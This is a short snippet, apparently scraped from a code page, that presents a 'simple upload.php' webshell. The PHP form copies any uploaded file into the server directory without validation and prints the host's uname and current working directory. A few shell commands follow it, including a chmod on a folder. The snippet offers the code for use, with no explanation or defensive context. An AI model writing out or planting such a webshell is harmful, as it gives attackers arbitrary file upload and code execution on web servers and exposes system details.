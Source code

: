 # webshell simple upload.php.

vim upload.php

<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>

cd ..

chmod +r carpeta

cd carpeta

